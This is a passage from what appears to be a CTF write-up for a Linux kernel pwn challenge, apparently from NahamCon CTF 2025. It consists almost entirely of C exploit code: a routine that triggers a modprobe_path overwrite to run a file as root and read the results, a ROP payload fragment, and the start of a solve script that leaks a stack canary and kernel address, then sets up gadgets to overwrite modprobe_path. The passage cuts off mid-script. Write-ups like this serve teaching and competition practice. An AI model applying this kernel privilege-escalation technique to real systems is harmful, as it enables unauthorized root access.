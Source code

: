 ```c
        puts("[!] Failed to chmod win condition");
        exit(-1);
    };
    puts("[+] Wrote modprobe trigger -> /home/user/d");

    puts("[*] Triggering modprobe by executing /home/user/d");
    execv(dummy_file, NULL);

    puts("[?] Hopefully GG");
    fptr = fopen(res, "r");
    if (!fptr) {
        puts("[!] Failed to open results file");
        exit(-1);
    }
    char *line = NULL;
    size_t len = 0;
    for (int i = 0; i < 8; i++) {
        uint64_t read = getline(&line, &len, fptr);
        printf("%s", line);
    }

    fclose(fptr);
}
```

```c
... //After the pop 2 times
payload[canary_idx++] = (uint64_t)abuse_modprobe;
payload[canary_idx++] = user_cs;
...
```

![alt](/img/CTFTime/NahamCon_CTF_2025/Solve.png)

### Solve Script
`exploit.c`
```C
#include "libpwn.c"

int main(){
  save_state();
  fd = open(DEV_PATH, O_RDWR);
  if (fd < 0) error("[-] Failed fd open");
  char buffer[0x400];
  read(fd, buffer, 0x150);
  dump_hex(buffer, 0x150);
  leak = ((unsigned long *)buffer)[10];
  canary = ((unsigned long *)buffer)[19];
  kernel_base = leak - 0x1c8a08;
  swapgs_restore_regs_and_return_to_usermode = KADDR(0xffffffff81c00a2f);

  pop_rdi_ret = KADDR(0xffffffff81001518);
  pop_rax_ret = KADDR(0xffffffff8100dc1e);
  write_rax_to_rdi = KADDR(0xffffffff8104ebe2);
  modprobe_path = KADDR(0xffffffff82444620);
  info("canary", canary);  
  info("leak", leak);
  info("kernel_base", kernel_base);
  info("swapgs_restore_regs_and_return_to_usermode", swapgs_restore_regs_and_return_to_usermode);
  info("pop_rdi_ret", pop_rdi_ret);
  info("pop_rax_ret", pop_rax_ret);
  info("write_rax_to_rdi", write_rax_to_rdi);
  info("modprobe_path", modprobe_path);

```